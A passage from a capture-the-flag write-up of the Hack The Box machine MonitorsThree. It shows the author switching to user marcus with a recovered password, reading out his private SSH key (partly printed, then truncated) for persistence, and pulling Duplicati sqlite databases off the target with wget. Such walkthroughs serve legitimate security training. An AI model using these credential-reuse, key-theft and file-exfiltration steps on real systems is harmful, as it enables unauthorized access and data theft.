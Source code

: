 And we can use this string of numbers as a password for marcus:

```
www-data@monitorsthree:~/html/cacti/include$ su marcus
Password: 
marcus@monitorsthree:/var/www/html/cacti/include$ whoami
marcus
```

From here we can grab the first flag:

![htb_monitors3_user.png](../assets/monitorsthree_assets/htb_monitors3_user.png)

I'll also grab marcus' SSH key for persistence:

```
marcus@monitorsthree:~/.ssh$ ls -la
total 20
drwx------ 2 marcus marcus 4096 Aug 20  2024 .
drwxr-x--- 4 marcus marcus 4096 Aug 16  2024 ..
-rw------- 1 marcus marcus  574 Aug 20  2024 authorized_keys
-rw------- 1 marcus marcus 2610 Aug 20  2024 id_rsa
-rw-r--r-- 1 marcus marcus  574 Aug 20  2024 id_rsa.pub
marcus@monitorsthree:~/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAqgvIpzJXDWJOJejC3CL0m9gx8IXO7UBIfGplG1XCC6GhqPQh8OXK
rPkApFwR1k4oJkxQJi0fG2oSWmssfwqwY4FWw51sNIALbSIV3UIlz8/3ufN0zmB4WHacS+
k7hOP/rJ8GjxihThmh6PzC0RbpD/wCCCvF1qX+Bq8xc7797xBR4KfPaA9OgB0uvEuzVWco
<SNIP>
```

### Privilege Escalation

Looking around the box we find some interesting files in `/opt`:

```
marcus@monitorsthree:/opt/duplicati/config$ ls
control_dir_v2  CTADPNHLTC.sqlite  Duplicati-server.sqlite
```

Let's transfer these files back locally using `wget`:

```
┌──(ryan㉿kali)-[~/HTB/MonitorsThree]
└─$ wget 10.129.231.115:8888/Duplicati-server.sqlite
--2025-07-25 15:49:53--  http://10.129.231.115:8888/Duplicati-server.sqlite
Connecting to 10.129.231.115:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 90112 (88K) [application/vnd.sqlite3]
Saving to: ‘Duplicati-server.sqlite’

Duplicati-server.sqlite         100%[====================================================>]  88.00K  --.-KB/s    in 0.1s    

2025-07-25 15:49:54 (630 KB/s) - ‘Duplicati-server.sqlite’ saved [90112/90112]

                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/MonitorsThree]
└─$ wget 10.129.231.115:8888/CTADPNHLTC.sqlite      
--2025-07-25 15:50:07--  http://10.129.231.115:8888/CTADPNHLTC.sqlite
```